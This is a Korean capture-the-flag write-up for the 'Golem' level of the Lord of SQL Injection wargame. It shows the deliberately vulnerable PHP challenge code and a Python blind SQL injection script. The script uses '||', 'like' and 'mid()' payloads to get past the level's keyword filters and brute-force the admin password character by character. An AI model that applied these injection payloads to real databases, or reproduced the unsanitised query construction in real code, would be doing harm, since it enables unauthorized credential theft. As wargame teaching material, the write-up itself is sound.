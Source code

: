 # **Golem**
## 1. 문제의도
MySQL 에서 주석 사용법을 아는가?

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
      exit("No Hack ~_~");

    if(preg_match('/or|and|substr\(|=/i', $_GET[pw]))
      exit("HeHe");

    $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));

    if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

    $_GET[pw] = addslashes($_GET[pw]);

    $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));

    if(($result['pw']) && ($result['pw'] == $_GET['pw']))
      solve("golem");

    highlight_file(__FILE__);
  ?>
```
----
### 1. preg_match()
information_schema 와 문제 테이블들에 대한 직접 접근을 막고 있다.
```
  prob | _ | . | ()
```

### 2. query
```SQL
  select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'
```

접근 할 수 있는 부분 : pw GET parameter  

### 3. 통과 조건
```php
  if(($result['pw']) && ($result['pw'] == $_GET['pw']))
    solve("golem");
```
우리는 pw를 직접 알 필요가 있다.

----
## 3. Solution
pw 파라미터를 통한 블라인드 인젝션으로 admin 계정의 pw 를 알아보자!!

<이제 부터는 어느정도의 mysql 함수를 안다는 가정하에 진행한다.>

### My Answers :

이번 문제는 간단한 블라인드 SQLi 이다.

다음과 같은 python 코드를 작성하여 해결 하였다.

```python
#-*- coding: utf-8 -*-
import urllib2, urllib, string

def getRequest(url, inject_url=""):
    if inject_url is not "": url = url.format(urllib.quote(inject_url))
    print url
    req = urllib2.Request(url)
    req.add_header('User-Agent','Mozilla/4.0')
    req.add_header("Cookie","PHPSESSID=kvkemdvcf9bqkcmk5v2c51chk4")
    return req

def getPage(req):
    return urllib2.urlopen(req).read()

url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw={}"

# get length
inject_url = "' || length(pw) like {}; -- -"
for i in range(1, 100):
    req = getRequest(url,inject_url.format(i))
    page = getPage(req)
    if "Hello admin" in page:
        length = i
        break

print "Length :",length

# get password : brute forcing
password = ""
inject_url = "' || mid(pw,{},1) like '{}"
for i in range(1,length+1):
    for c in string.digits + string.letters:
        req = getRequest(url, inject_url.format(i,c))
        page = getPage(req)
        if "Hello admin" in page:
            print i,"'th letter is",c
            password += c
            break

print "Password :",password

```

python 코드가 "Password : 88e3137f" 라고 출력했다.
그래서 답은 88e3137f 를 입력하면 클리어!!

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**
